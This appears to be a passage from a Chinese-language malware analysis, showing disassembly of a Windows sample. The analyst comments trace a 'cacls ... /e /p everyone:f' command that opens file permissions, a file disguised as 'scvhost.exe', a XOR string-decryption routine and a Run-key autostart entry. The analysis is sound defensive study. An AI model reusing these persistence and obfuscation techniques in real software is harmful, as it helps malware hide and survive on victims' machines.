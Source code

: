   00400A4D  |.  8D85 F0FDFFFF lea     eax, dword ptr [ebp-210]
  00400A53  |.  50            push    eax                              ; /<%s>
  00400A54  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]         ; |
  00400A5A  |.  68 00274000   push    00402700                         ; |format = "cmd /c cacls ""%s"" /e /p everyone:f"
  00400A5F  |.  50            push    eax                              ; |s
  00400A60  |.  FF15 F0044000 call    dword ptr [<&MSVCRT.sprintf>]    ; \sprintf
  00400A66  |.  83C4 0C       add     esp, 0C
  00400A69  |.  8D85 ECFCFFFF lea     eax, dword ptr [ebp-314]
  00400A6F  |.  57            push    edi
  00400A70  |.  50            push    eax
  00400A71  |.  FFD3          call    ebx
  （10）获得注册表操作相关 API 函数虚拟地址,添加注册表自启动项
  00400A73  |.  E8 15FDFFFF   call    0040078D  //提权（前面我们已经分析过了）

  00400A78  |.  E8 43030000   call    00400DC0  

  00400DCF  |.  BE 58284000   mov     esi, 00402858                    ;  ASCII "QMDVUCPG^^Okapmqmdv^^Uklfmuq^^AwppglvTgpqkml^^Pwl"

  可能是加密的字符串，该字符串终究会解密，后面我们分析。

  00400DEF  |.  C645 F0 73    mov     byte ptr [ebp-10], 73                        ; |
  00400DF3  |.  66:A5         movs    word ptr es:[edi], word ptr [esi]            ; |
  00400DF5  |.  C645 F1 63    mov     byte ptr [ebp-F], 63                         ; |
  00400DF9  |.  C645 F2 76    mov     byte ptr [ebp-E], 76                         ; |
  00400DFD  |.  C645 F3 68    mov     byte ptr [ebp-D], 68                         ; |
  00400E01  |.  C645 F4 6F    mov     byte ptr [ebp-C], 6F                         ; |
  00400E05  |.  C645 F5 73    mov     byte ptr [ebp-B], 73                         ; |
  00400E09  |.  C645 F6 74    mov     byte ptr [ebp-A], 74                         ; |
  00400E0D  |.  C645 F7 2E    mov     byte ptr [ebp-9], 2E                         ; |
  00400E11  |.  C645 F8 65    mov     byte ptr [ebp-8], 65                         ; |
  00400E15  |.  C645 F9 78    mov     byte ptr [ebp-7], 78                         ; |
  00400E19  |.  C645 FA 65    mov     byte ptr [ebp-6], 65                         ; |

  0012FA80  73 63 76 68 6F 73 74 2E 65 78 65 00              scvhost.exe.

  动态加载动态链接库 advapi32.dll，获取 RegCloseKey()、RegCreateKeyA()、RegSetValueExA()虚拟地址。

  00400EC8  |.  50            push    eax                                          ; /s = "QMDVUCPG^^Okapmqmdv^^Uklfmuq^^AwppglvTgpqkml^^Pwl"
  00400EC9  |.  E8 BE070000   call    <JMP.&MSVCRT.STRLEN>                         ; \strlen
  00400ECE  |.  59            pop     ecx
  00400ECF  |.  50            push    eax
  00400ED0  |.  8D85 6CFFFFFF lea     eax, dword ptr [ebp-94]
  00400ED6  |.  50            push    eax
  00400ED7  |.  E8 75F8FFFF   call    00400751  //字符串解密函数
  00400EDC  |.  83C4 0C       add     esp, 0C

  00400751  /$  55            push    ebp
  00400752  |.  8BEC          mov     ebp, esp
  00400754  |.  56            push    esi
  00400755  |.  57            push    edi
  00400756  |.  8B7D 08       mov     edi, dword ptr [ebp+8]
  00400759  |.  897D 08       mov     dword ptr [ebp+8], edi
  0040075C  |.  8B75 08       mov     esi, dword ptr [ebp+8]
  0040075F  |.  B8 02000000   mov     eax, 2
  00400764  |.  8B4D 0C       mov     ecx, dword ptr [ebp+C]
  00400767  |>  3106          /xor     dword ptr [esi], eax
  00400769  |.  46            |inc     esi
  0040076A  |.^ E2 FB         \loopd   short 00400767
  0040076C  |.  57            push    edi                                          ; /s = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
  0040076D  |.  E8 1A0F0000   call    <JMP.&MSVCRT.STRLEN>                         ; \strlen
